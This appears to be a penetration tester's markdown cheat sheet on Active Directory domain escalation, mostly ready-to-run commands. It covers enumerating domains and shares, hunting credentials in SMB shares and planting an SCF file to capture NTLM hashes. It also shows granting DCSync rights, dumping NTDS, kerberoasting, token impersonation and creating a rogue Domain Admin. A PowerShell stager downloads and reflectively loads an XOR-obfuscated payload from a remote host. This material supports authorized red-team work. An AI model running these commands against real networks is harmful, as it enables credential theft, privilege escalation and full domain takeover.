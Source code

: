 # Domain escalation

## Tools

- [Bloodhound](https://github.com/BloodHoundAD/BloodHound) & [Sharphound injestor](https://github.com/BloodHoundAD/SharpHound3) or [bloodhound-python injestor](https://github.com/fox-it/BloodHound.py)
- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit) (PowerView)
- [Ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
- [adidnsdump](https://github.com/dirkjanm/adidnsdump)
- [windapsearch](https://github.com/ropnop/windapsearch)
- [SharpSniper](https://github.com/HunnicCyber/SharpSniper)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [RSAT](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu) (remote graphical view)

> After installing RSAT, you can go to "Users and Computers AD =&gt; View =&gt; Advanced"

```bash
# Install bloodhound
sudo apt-get update && sudo apt-get install bloodhound python3-pip && git clone https://github.com/SecureAuthCorp/impacket.git && cd impacket && pip3 install .
```

```bash
#enum4linux
enum4linux -a <target_dc> <user> -p <pass> -d <domain>

#bloodhound-python
bloodhound.py -d <DOMAIN> <user> -p <pass> -dc <FQDN-SERVER> -c all

#ldapdomaindump
pip install ldapdomaindump && ldapdomaindump -u '<domain>\<user>' -p '<pass>' <target>

#ldapsearch
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```

---

## **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Domain users and password policy \(especially complexity and lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
enum4linux <target> |grep "user:" | cut -d '[' -f2 | cut -d "]" -f1 > users.txt
```

Domain computers 

```bash
#pip install git+https://github.com/dirkjanm/adidnsdump#egg=adidnsdump
adidnsdump -u <domain>\\<user> -p <pass>
adidnsdump -u <domain>\\<user> -p <pass> --forest --include-tombstoned
adidnsdump -u <domain>\\<user> -p <pass> --dns-tcp

Get-ADComputer -Filter * -Property * | Select-Object Name,OperatingSystem,OperatingSystemVersion,ipv4Address | Export-CSV ADcomputerslist.csv -NoTypeInformation -Encoding UTF8

# Find specific computer of domain user
SharpSniper.exe emusk <username> <password>
```

### Open shares \(SMB, NFS, FTP, etc\)

**SMB readable shares**

```bash
# ManSpider
git clone https://github.com/blacklanternsecurity/MANSPIDER && cd MANSPIDER && pipenv --python 3 shell
pip install -r requirements.txt
./manspider.py <target> -d <domain> -u <user> -p <pass> -f passw user admin account network login logon cred 
./manspider.py <target> -d <domain> -u <user> -p <pass> -c password -e xlsx
./manspider.py <target> -d <domain> -u <user> -p <pass> -e bat com vbs ps1 psd1 psm1 pem key rsa pub reg txt cfg conf config 

# smbmap
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbmap --host-file smb-hosts.txt -u '<user>' -p '<pass>' -q -R --depth 3 --exclude ADMIN$ IPC$ -A '(web|server|global|index|login|logout|auth|httpd|config).(xml|config|conf|asax|aspx|php|asp|jsp|html)'

# SMB V1
smbclient -L ///192.168.0.1 -U <user> -c ls [--option='client min protocol=NT1']
mount //10.11.1.136/"Bob Share" /mnt/bob [-o vers=1.0]

smbget -rR smb://<target>/<share>/ -U <user
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`

```

**SMB writable shares**

upload this @scf_filename.scf and listen for the hash with Responder/NTLMrelayx

> Note: add a @ at first letter of the filename will place the .scf file on the top of the shared folder

```bash
[Shell]
Command=2
IconFile=\\<listener_ip>\share\<ico_name>.ico
[Taskbar]
Command=ToggleDesktop
```


**NFS**

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

---

## **ACLs**

Get ACL

```bash
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```bash
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```bash
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

## **Kerbrute AS-REP**

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/users.txt <target>
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---


## **Impersonation Token**

### Tools
- [Rubeus.exe](https://github.com/GhostPack/Rubeus) (DOTNET CSHARP)
- [Tokenvator](https://github.com/0xbadjuju/Tokenvator) (DOTNET CSHARP)
- [Incognito.exe](https://github.com/FSecureLABS/incognito) (Meterpreter extension)
- [TokenManipulation.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

Reflectively load DOTNET CSHARP Assembly within Powershell (or Cobalt, SilentTrinity etc.) if you cant do it through your C2 Infra :

```powershell
$wc=New-Object System.Net.WebClient;$wc.Headers.Add("User-Agent","Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0");$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials
$k="xxxxxxx";$i=0;[byte[]]$b=([byte[]]($wc.DownloadData("https://xxxxx")))|%{$_-bxor$k[$i++%$k.length]}
[System.Reflection.Assembly]::Load($b) | Out-Null
$parameters=@("arg1", "arg2")
[namespace.Class]::Main($parameters)
```

---

### Kerberos impersonate

Find domain admin accounts 

```bat
net group "Domain Admins" /DOMAIN
net group "Admins du domaine" /DOMAIN
```

Find if one is loggedon somewhere :

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedon-users
bloodhound.py -d <domain> -u <user> -p <password> -ns <IP-DC> -c LoggedOn
```

Impersonate kerberos token

```bat
# Rubeus
Rubeus.exe klist
Rubeus.exe dump
Rubeus.exe kerberoast /outfile:roasted_hashes.txt
Rubeus.exe asreproast /outfile:asrep_hashes.txt
Rubeus.exe s4u </ticket:BASE64 | /ticket:FILE.KIRBI> </impersonateuser:USER | /tgs:BASE64 | /tgs:FILE.KIRBI>

#TokenManipulation
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"


# Incognito loaded by Meterpreter
load incognito 
list_tokens -u
impersonate_token <domain>\\<user> # Double slash is mandatory !

# Incognito standalone executable
Incognito.exe

# CrackMapExec using kerberos ticket
export KRB5CCNAME=<user>.ccache 
sudo cme smb <target> --kerberos -x whoami
```

Create new Domain Admin account 

```bat
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

Check if a computer has the TrustedForDelegation flag enabled

```powershell
Get-ADComputer -Identity <computer_name> -Properties TrustedForDelegation
```

---

### Manual testing

- [secureauth.com](https://www.secureauth.com/blog/kerberos-delegation-spns-and-more/)

### Delegation Explained

- [specterops.io](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)


### Refs

- https://0xsp.com/ad-attack-or-defense/ad-ttps-list
- https://m0chan.github.io/2019/07/30/Windows-Notes-and-Cheatsheet.html
- https://github.com/yeyintminthuhtut/Awesome-Red-Teaming
- https://ired.team/
- https://github.com/vysecurity/RedTips
- https://0x00-0x00.github.io/
- https://blog.xpnsec.com/
- https://egre55.github.io
- https://rastamouse.me/
- https://posts.specterops.io/
- https://dirkjanm.io/
- https://adsecurity.org/
- http://www.labofapenetrationtester.com/